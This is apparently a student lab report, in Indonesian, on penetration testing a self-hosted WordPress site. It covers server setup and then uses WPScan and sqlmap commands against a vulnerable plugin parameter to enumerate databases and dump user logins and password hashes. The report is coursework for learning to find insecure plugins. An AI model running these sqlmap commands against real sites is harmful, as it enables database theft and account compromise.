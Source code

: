 #### Anggota:
* I Made Fandy Aditya Wirana    5114100026
* Muhammad Fahmi Abdurrahman    5114100028
* I Gede Putu Nobby Aswi Phala  5114100048

### Pendahuluan

  Laporan ini berisi uji penetrasi Wordpress. OS server yang digunakan yaitu Ubuntu Server 16.04.3 dan OS penyerang yang digunakan yaitu Kali Linux 2017.1. Tools yang digunakan untuk menyerang yaitu WPScan, sqlmap.
  
### Dasar Teori

  * #### Ubuntu Server
    Ubuntu Server Edition mendukung arsitektur Intel x86 dan AMD64. Edisi server menyediakan fitur seperti file/print services, web hosting, email hosting, dll. Ada beberapa perbedaan antara edisi server dan edisi desktop walaupun keduanya menggunakan repositori apt yang sama. Perbedaan utamanya adalah, pada edisi server X window environment tidak diinstall scara standar, walaupun antarmuka grafik dapat diinstall secara manual seperti Ubuntu desktop. CD Ubuntu Server Edition juga memiliki pilihan untuk menginstall Ubuntu Enterprise Cloud.
    
  * #### Kali Linux
    Kali Linux adalah distribusi Linux berbasis Debian yang ditujukan untuk uji penetrasi dan pengecekan keamanan. Kali memiliki ratusan tools yang disematkan untuk menjalankan berbagai task yang berkaitan dengan keamanan, seperti uji penetrasi, forensik digital, dan *Reverse Engineering*. Kali Linux dikembangkan oleh Offensive Security, perusahaan yang berkembang di bidang keamanan informasi.
    
  * #### WPScan
    WPScan adalah tools untuk mendeteksi keamanan dari wordpress dengan metode blackbox. Fitur yang dimiliki antara lain:
    * pencacah username
    * multithreaded password bruteforcing
    * pencari versi plugin WordPress dan
    * pencari kerentanan sistem web wordpress
    
  * #### sqlmap
    sqlmap adalah alat pengujian open source yang mendeteksi dan mengeksploitasi kelemahan dalam SQL injection dan mengambil alih server database. Muncul dengan mesin pendeteksi yang hebat, banyak fitur untuk tester penetrasi akhir dan berbagai switch yang bertahan dari sidik jari database, melebihi pengambilan data dari database, untuk mengakses sistem berkas yang mendasarinya dan menjalankan perintah pada sistem operasi melalui sistem out- koneksi band.
    Mendukung  DBMS MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, HSQLDB dan Informix.

### Instalasi Ubuntu Server + OpenSSH Server

  1. Download file instalasi Ubuntu Server dan mount ke virtual machine
      https://www.ubuntu.com/download/server
      
  2. Pilih "*Install Ubuntu Server*"
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-server.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-pwd-server.png)
  4. Set Partition Disk Menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-server.png)
  5. Tunggu instalasi selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-server.png)
  6. Lakukan konfigurasi lainnnya
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/config-taskkel-server.png)
  7. Pilih software yang akan diinstall
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-server.png)
  8. Tunggu instalasi software
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-wait-server.png)
  9. Install Bootloader Grub
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-grub-server.png)
  10. Selesai!!!
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/done-server.png)
### Instalasi Kali Linux
  
  1. Download file instalasi Kali Linux dan mount ke virtual machine
      https://www.kali.org/downloads/

  2. Pilih *Graphical Install*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-kali.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-kali.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-kali.png)
  4. Set Partition Disk menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-kali.png)
  5. Set Disk yang akan dibuat menjadi partisi
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-disk-kali.png)
  6. Set Partition Scheme menjadi *All files in one partition*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-scheme-kali.png)
  7. Tunggu Instalasi Selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-kali.png)
  8. Selesai!!!

### Instalasi LAMP server

  1. Gunakan perintah seperti berikut
     >```sudo tasksel install_lamp-server```
  2. Tunggu file didownload
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/2.PNG)
  3. Set password untuk user root dari mysql
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/3.PNG)
  4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4.PNG)
  5. Selesai!!!
    
### Instalasi Wordpress
  1. Dowload Wordpress dengan perintah seperti berikut
  >```wget http://wordpress.org/latest.zip```
  2. Extract file ke /var/www/html
  >```sudo unzip latest.zip -d /var/www/html```
  3. Ganti kepemilikan dan hak akses dari folder wordpress
  >```sudo chown -R www-data:www-data /var/www/html/wordpress///```
  >```sudo chmod -R 775 /var/www/html/wordpress/```
  4. Berikan Port Forwarding Rules ke Vitual Machine agar dapat diakses dari luar
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4-wp.PNG)
  5. Berikan rules firewall di ubuntu server, lalu restart firewall
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/5-wp.PNG)
  6. Buka mysql, lalu buat database dengan nama wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/6-wp.PNG)
  7. Buka halaman depan dari Wordpress, lalu akan ada inisialisasi
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/7-wp.png)
  8. Isi konfigurasi database dengan yang telah dibuat sebelumnya
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/8-wp.png)
  9. Set konfigurasi website
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/9-wp.png)
  10. Selesai!!!
    ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/10-wp.png)

### Instalasi Plugin
   1. Masuk ke menu Plugin -> Add New
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/1-plugin.png)
    2. Klik tombol Upload Plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/2-plugin.png)
    3. Pilih file plugin, lalu klik Install Now
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/3-plugin.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/3.1-plugin.png)
    4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/4-plugin.png)
    5. Selesai!!!
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/5-plugin.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/5.1-plugin.png)
 
### Uji Penetrasi
   * #### WPScan
    1. Lakukan tes dengan cara berikut
    > ```wpscan --url http://192.168.1.1 --enumerate -u```
    2. Jika berhasil akan menampilkan informasi kelemahan plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2.PNG)
    3. Tambahkan data pada LeagueManager pada panel adming di wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3.PNG)
   * sqlmap
    1. Lakukan command di bawah terlebih dahulu untuk mengetahui informasi database
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -p league_id --dbs```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/1-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2-sinj.PNG)
    2. Dapatkan informasi tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -D wordpress --tables```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3-sinj.PNG)
    3. Dapatkan informasi kolom pada tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users --columns
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/4-sinj.PNG)
    4. Dapatkan informasi user dan password dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users -C user_login,user_pass --dump
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/5-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/6-sinj.PNG)
  
  





### Kesimpulan dan Saran
   Serangan SQL Injection adalah memodifikasi perintah sql dari aplikasi client dengan cara menyisipkan kedalamnya. Dalam hal ini terdapat plugin dari wordpress yang tidak di optimasi querynya, sehingga rentan SQL Injection tersebut. Dengan tools tools tersebut, developer dapat memeriksa keamanan dari plugin dan seisi websitenya, sehingga developer dapat memperbaharui plugin atau mengganti plugin yang tidak aman.
